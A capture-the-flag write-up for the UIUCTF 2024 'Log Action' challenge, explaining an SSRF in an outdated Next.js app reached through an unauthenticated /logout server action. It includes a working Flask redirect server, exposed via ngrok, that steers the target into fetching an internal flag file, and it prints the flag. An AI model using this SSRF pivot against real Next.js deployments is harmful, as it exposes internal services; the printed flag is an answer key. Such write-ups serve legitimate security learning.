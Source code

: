 # Web - Log Action
Solved by **Shen**\
Original Writeup: https://chuajianshen.github.io/2024/06/29/UIU2024/

## Question
I keep trying to log in, but it's not working :'(

## Solution
The application uses an older version of Next.js vulnerable to SSRF. Through research, a blog from Assetnote stands out as a reference.
https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps

Besides, the /login condition doesn't allow for SSRF exploitation directly due to admin login requirements.
```
"use server";
...
finally {
    if (!foundError) {
      redirect('/admin');
    }
  }
```

However, the /logout endpoint, which typically requires authentication, is not protected by the authentication middleware beyond paths containing /admin/. This allows unauthorized access to /logout. 
```
export const { auth, signIn, signOut } = NextAuth({
  ...authConfig,
  providers: [
    Credentials({
      async authorize(credentials) {
        const parsedCredentials = z
          .object({ username: z.string(), password: z.string() })
          .safeParse(credentials);

        if (parsedCredentials.success) {
          const { username, password } = parsedCredentials.data;
          // Using a one-time password is more secure
          if (username === "admin" && password === randomBytes(16).toString("hex")) {
            return {
              username: "admin",
            } as User;
          }
        }
        throw new CredentialsSignin;
      },
    }),
  ]
});
```

Hosted a Flask server to redirect request to http://backend/flag.txt with ngrok.

```
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

if __name__ == '__main__':
    app.run()

uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
```

Submitted a crafted request to the /logout endpoint that pointing to the Flask server. The server should redirect requests to  http://backend/flag.txt and allow us to retrieve the flag.
![Flag](flag.png)

### Flag
`uiuctf{close_enough_nextjs_server_actions_welcome_back_php}`
